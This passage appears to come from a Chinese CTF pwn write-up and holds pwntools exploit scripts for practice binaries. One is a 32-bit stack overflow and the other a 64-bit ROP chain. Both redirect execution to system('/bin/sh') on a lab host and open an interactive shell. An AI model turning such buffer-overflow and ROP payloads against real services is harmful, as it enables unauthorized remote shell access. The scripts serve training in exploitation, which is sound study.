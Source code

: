 ```python
sh.recvuntil(b'\n')
sh.recvuntil(b'\n')
sh.sendline(0x12*b"a")
sh.recvuntil(b'\n')
system_plt = 0x8048410 # elf.plt["system"]
call_system_addr=0x80485BE
bin_sh_addr = 0x8048710

payload = b'\0'+0x25*b'a'+4*b'a'
payload+= p32(call_system_addr)+p32(bin_sh_addr)

# payload = b'\0'+0x25*b'a'+4*b'a'
# payload+= p32(system_plt)+4*b'a'+p32(bin_sh_addr)

sh.sendline(payload)

sh.interactive()

```
## bear的easy64
难度：2.5*
### 考察知识点：

1. x64函数的系统调用
2. 寻找gadget的方法：ROPgadget/ropper的使用
```python
from pwn import *
# 设置上下文语境
context(log_level = 'debug', os = 'linux', arch = 'i386')
context.terminal = ['tmux','new-window']

#sh = process("./easy64")
#sh = gdb.debug('./easy64')
#elf = ELF("./easy64")
sh = remote("10.10.175.100",33572)
#dbg()
sh.recvuntil(b'\n')
sh.recvuntil(b'\n')
sh.sendline("/bin/sh\0")
sh.recvuntil(b'\n')
pop_rdi_addr = 0x4008d3
call_system_addr=0x4007B0
bin_sh_addr = 0x601090

payload = b'\0'+0x1F*b'a'+8*b'a'
payload+= p64(0x400860)+p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(call_system_addr)
print(len(p64(0x400860)))
sh.sendline(payload)
# 输入num
sh.interactive()
```
## bear的shellcode
难度：***
### 考察知识点
